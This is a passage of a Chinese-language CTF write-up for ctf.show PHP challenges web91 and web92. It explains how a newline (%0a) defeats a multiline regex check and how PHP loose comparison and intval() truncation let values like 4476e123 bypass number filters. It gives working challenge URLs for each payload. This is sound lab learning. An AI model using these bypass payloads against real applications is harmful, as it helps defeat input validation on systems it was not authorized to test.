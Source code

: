 ## web91

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101113835.png)

`/i` 表示忽略大小写, `/m` 表示多行匹配, `^` 表示匹配开头, `$` 表示匹配结尾

即多行/单行匹配以 `php` 为开头和结尾的字符串

多行匹配 (不匹配换行符)

````re
^xxx$
^yyy$
^zzz$
````

单行匹配 (匹配换行符, 相当于一行)

```re
^xxx
yyy
zzz$
```

这里我们用换行符通过第一个 if, 绕过第二个 if, 得到 flag

```
http://10c6de4e-34f6-40db-aea3-0be726db896f.challenge.ctf.show/?cmd=%0aphp
http://10c6de4e-34f6-40db-aea3-0be726db896f.challenge.ctf.show/?cmd=abc%0aphp
```

看了 hint 才知道这原来是一个解析漏洞...

[https://blog.csdn.net/qq_46091464/article/details/108278486](https://blog.csdn.net/qq_46091464/article/details/108278486)

[https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)

## web92

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101138737.png)

相比于之前那题把 `===` 改成了 `==`

这时候用 `==` 比较的时候会进行弱类型转换, `4476.0` 不能用了, 但 `4476.1` 可以用

另外还能用科学计数法, `123e456` 就是 `123x10^456`, 这里因为传参是当字符串处理的, 传递 `4476e123` 在类型转换后会被当作科学计数法, 而在 `intval()` 中则是取整, 遇到字母 `e` 后被截断

```
http://0c177459-605c-4c7b-aadf-072390d97a5c.challenge.ctf.show/?num=0x117c
http://0c177459-605c-4c7b-aadf-072390d97a5c.challenge.ctf.show/?num=4476.1
http://0c177459-605c-4c7b-aadf-072390d97a5c.challenge.ctf.show/?num=4476e123
```

## web93
